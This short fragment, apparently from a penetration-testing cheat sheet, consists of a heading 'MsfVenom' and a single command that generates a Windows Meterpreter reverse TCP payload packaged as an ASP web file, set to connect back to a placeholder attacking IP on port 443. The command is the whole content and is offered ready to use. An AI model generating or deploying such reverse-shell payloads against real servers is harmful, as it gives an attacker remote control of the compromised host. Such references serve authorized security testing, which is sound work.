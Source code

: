 ### MsfVenom 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f asp > rev-shell.asp
```

